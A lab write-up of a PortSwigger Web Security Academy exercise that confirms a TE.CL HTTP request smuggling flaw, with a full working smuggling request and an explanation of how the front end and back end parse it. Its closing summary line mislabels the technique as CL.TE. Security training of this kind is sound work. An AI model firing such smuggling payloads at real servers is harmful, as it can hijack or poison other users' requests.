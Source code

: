 # HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses), you'll learn: HTTP request smuggling, confirming a TE.CL vulnerability via differential responses! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server, so that a subsequent request for `/` (the web root) triggers a 404 Not Found response.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-5/images/Pasted%20image%2020230128190147.png)

Burp Suite HTTP history:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-5/images/Pasted%20image%2020230128190204.png)

We can send this request to Burp Suite's Repeater:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-5/images/Pasted%20image%2020230128190221.png)

Then change the request method to POST:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-5/images/Pasted%20image%2020230128190345.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-5/images/Pasted%20image%2020230128190351.png)

Now, we can try to test the web application is vulnerable to TE.CL HTTP request smuggling (Front-end uses `Transfer-Encoding` header, back-end uses `Content-Length` header).

**To do send, we first send an attack request:**
```http
POST / HTTP/1.1
Host: 0aa8008603dfb20dc1821ccb00080051.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 4

a7
GET /404 HTTP/1.1
Host: 0aa8008603dfb20dc1821ccb00080051.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

smuggled=yes
0


```

> Note: You need to include the trailing sequence `\r\n\r\n` following the final `0`, and go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.

This attack request will:

- The front-end server uses `Transfer-Encoding` header, which means it'll see hex chunk `a7` (Decimal 167)
- The back-end server uses `Content-Length` header, which means it'll just see `a7\r\n`. That being said, the back-end server will see:

```http
GET /404 HTTP/1.1
Host: 0aa8008603dfb20dc1821ccb00080051.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

smuggled=yes
0


```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-5/images/Pasted%20image%2020230128191347.png)

**After that, we can send a normal GET request:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-5/images/Pasted%20image%2020230128191436.png)

**Smuggled normal GET request:**
```http
GET /404 HTTP/1.1
Host: 0aa8008603dfb20dc1821ccb00080051.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

smuggled=yes
0

GET / HTTP/1.1
[...]
```

Nice! We successfully smuggled an attack 404 GET request, and can confirm the web application is vulnerable to TE.CL HTTP request smuggling.

# What we've learned:

1. Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability